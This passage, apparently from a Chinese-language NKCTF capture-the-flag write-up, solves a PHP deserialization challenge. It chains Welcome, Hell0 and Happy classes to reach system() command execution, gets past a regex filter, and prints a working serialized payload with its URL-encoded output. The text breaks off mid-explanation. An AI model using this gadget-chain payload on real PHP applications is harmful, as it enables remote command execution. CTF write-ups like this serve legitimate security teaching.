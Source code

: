 我们仔细分析一下代码，可以得到一条pop链：`Welcome->Hell0->Happy`

我们可以将Welcome类的 `$name='welcome_to_NKCTF'`，`$args=new Hell0()`

当Welcome类被销毁时，会调用 `__destruct()`方法，使用echo输出`Hell0`对象，调用Hell0的`__toString()`方法，当类Hell0对象的`$func=new Happy()`，我们以函数的形式调用一个对象时，会自动调用该对象的`__invoke()`方法，进而实现命令执行。

但是这里有一个`waf`:

```php
function waf($string){
        if(preg_match('/f|l|a|g|\*|\?/i', $string)){
            die("you are bad");
        }
    }
```

把 `flag*?`给过滤了，我们不能直接读flag，我们先构造链去获取flag的路径：

```php
<?php

class Welcome {
    public $name = "welcome_to_NKCTF";
    public $arg;
}
class Happy {
    public $shell;
    public $cmd;
}

class Hell0 {
    public $func;
}
$w = new Welcome();
$ha = new Happy();
$he = new Hell0();

$w->arg = $he;
$he->func=$ha;
$ha->shell="system";
$ha->cmd="dir /";    //此处不能使用ls，l被过滤，我们可以使用dir
echo urlencode(serialize($w));

输出：
O%3A7%3A%22Welcome%22%3A2%3A%7Bs%3A4%3A%22name%22%3Bs%3A16%3A%22welcome_to_NKCTF%22%3Bs%3A3%3A%22arg%22%3BO%3A5%3A%22Hell0%22%3A1%3A%7Bs%3A4%3A%22func%22%3BO%3A5%3A%22Happy%22%3A2%3A%7Bs%3A5%3A%22shell%22%3Bs%3A6%3A%22system%22%3Bs%3A3%3A%22cmd%22%3Bs%3A5%3A%22dir+%2F%22%3B%7D%7D%7D
```

![image-20230327141351769](https://s2.loli.net/2023/03/27/cFnZoDHg1Je7Ejh.png)

然后我们需要去读取根目录下的 `f1ag`，但是：`fag?*`被过滤了，我们怎么才能读？

我们查询到linux下还有其他的通配符：
